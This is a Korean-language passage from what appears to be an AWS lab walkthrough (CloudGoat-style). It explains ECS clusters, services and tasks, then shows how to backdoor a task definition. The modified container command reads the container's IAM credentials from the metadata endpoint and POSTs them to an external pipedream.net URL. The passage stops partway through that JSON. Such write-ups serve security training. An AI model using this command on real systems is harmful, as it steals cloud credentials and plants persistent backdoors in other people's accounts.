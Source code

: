 - Elastic Container Services(ECS) Container는 orchestration 을 구현하는 AWS 서비스들 중 하나 입니다.
- ECS는 Cluster, Service, Task 해당 3가지 주요 부분으로 구성되며 Cluster는 ECS에서 가장 높은 수준의 추상화 방법입니다.
- Cluster는 Simple Task, Service Group이며 Service는 하나 이상의 Container로 구성될 수 있는 Running to Long time Task입니다.
- Task는 Task Definition에 의해 정의된 Running중인 Container입니다.
- EC2, Fargate의 두 가지 작업 배포 Type이 있습니다.
- EC2에 Task을 배포하려면 Instance 설정이 필요하지만 Fargate를 사용하면 전용 인스턴스 없이 배포가 가능합니다.

### ECS Backdoor

- 앞서 구한 Task Definition의 `webapp:1` 을 사용해서 Single Task 를 포함하는 하나의 서비스가 배포되는 것을 알수 있었습니다.
- ECS 권한을 사용하여 해당 Task Definition를 수정한 다음에 서비스를 업데이트를 하여 새로운 업데이트 버전을 사용할 수 있도록 지시가 가능합니다.
- Task Definition에서 Backdoor를 생성하려면 먼저 현재 Task Definition을 다운로드 하고 수정을 해야 합니다.
- Backdoor를 만들기 위한 정보가 필요합니다.

```python
aws ecs describe-task-definition --task-definition webapp:1
```

![Untitled](./27.png)

- 현재 작업중인 task definition 정보를 추출하여 백도어를 제작할 때 필요한 파라미터를 적기 위해서 정보를 수집합니다.

```python
{
    "containerDefinitions": [
        {
            "name": "webapp",
            "image": "python:latest",
            "cpu": 128,
            "memory": 128,
            "memoryReservation": 64,
            "portMappings": [
                {
                    "containerPort": 80,
                    "hostPort": 80,
                    "protocol": "tcp"
                }
            ],
            "essential": true,
            "entryPoint": [
                "sh",
                "-c"
            ],
            "command": [
                "/bin/sh -c \"curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI > data.json && curl -X POST -d @data.json https://ens65n00m5z9al9.m.pipedream.net \" "
            ],
            "environment": [],
            "mountPoints": [],
            "volumesFrom": []
        }
    ],
    "family": "webapp",
    "taskRoleArn": "arn:aws:iam::712987748923:role/cg-ecs-role-ecs_efs_attack_cgidzng5qpdu9q",
    "executionRoleArn": "arn:aws:iam::712987748923:role/cg-ecs-role-ecs_efs_attack_cgidzng5qpdu9q",
    "networkMode": "awsvpc",
```